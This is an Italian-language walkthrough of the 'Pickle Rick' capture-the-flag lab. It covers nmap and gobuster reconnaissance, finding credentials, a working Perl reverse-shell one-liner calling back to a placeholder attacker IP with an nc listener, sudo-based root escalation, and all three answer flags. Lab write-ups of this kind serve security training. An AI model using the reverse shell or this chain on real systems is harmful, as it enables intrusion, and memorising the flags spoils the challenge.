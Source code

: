 #  Pickle Rick

_Difficoltà: Easy_
_________________

#  Task 1 - Pickle Rick

- sudo nmap -p- --open -sC -sV -sS -A -T 5 -Pn -oN scan_pickle.txt TARGET-IP

![Istantanea_2023-08-05_17-20-30](https://github.com/Manganaccio/Manganaccio/assets/137283468/b0671aa8-bd4a-4af2-9a30-91cf0f6c35ad)

- essendo aperta la porta 80 si può visitare la pagina web, una volta visitata esaminare il codice sorgente della stessa, viene fornita un username, manca a questo punto una password ed una pagina di login

![Istantanea_2023-08-05_17-19-18](https://github.com/Manganaccio/Manganaccio/assets/137283468/259037d1-74af-4e30-a989-0410973aed80)

- usare gobuster per trovare le directories nascoste e aggiungendo il comando _-x php_ in modo da trovare eventuali pagine di login: gobuster dir -u http://TARGET-IP -w /usr/share/wordlists/dirb/common.txt  -x php

![Istantanea_2023-08-06_09-07-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/8486d2e6-e4e6-4424-82a2-10af685be615)

- visitando la pagina robots.txt si può ottenere una parola che presumibilmente sarà la password dell'username trovato in precedenza

 ![Istantanea_2023-08-05_17-21-44](https://github.com/Manganaccio/Manganaccio/assets/137283468/c2bbae57-8946-44ad-93c0-74a3f1ac815f)

- visitando la pgina login.php si potrà effettuare l'accesso con le credenziali trovate. Si verrà poi indirizzati ad una nuova pagina web dove si potrà eseguire il comando per ottenere la reverse shell:
  perl -e 'use Socket;$i="YOUR-IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
- in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel comando "perl")

# What is the first ingredient that Rick needs?

- una volta messi in comunicazione si può trovare il primo ingrediente nella directory /var/www/html

![Istantanea_2023-08-06_09-36-42](https://github.com/Manganaccio/Manganaccio/assets/137283468/74752716-7fb8-40b7-ad59-877b42e927dd)

    Answer: mr. meeseek hair

# What is the second ingredient in Rick’s potion?

- nella medesima directory del primo ingrediente c'è un altro file interessante demoninato _clue.txt_: Look around the file system for the other ingredient.
- navigando in home e successivamente nella cartella rick si trova il secondo ingrediente

![Istantanea_2023-08-06_09-38-48](https://github.com/Manganaccio/Manganaccio/assets/137283468/7b8841b0-25bc-476f-b64f-970ba538e2fb)

    Answer: 1 jerry tear

# What is the last and final ingredient?

- eseguendo il comando _sudo -l_ si nota che si possono scalare i privilegi eseguendo semplicente il comando: sudo su
- una volta diventati root navigare nella relativa cartella per trovare l'ultimo ingrediente

![Istantanea_2023-08-06_09-46-46](https://github.com/Manganaccio/Manganaccio/assets/137283468/270a464e-90ab-4144-b184-4f48ad496952)

    Answer: fleeb juice
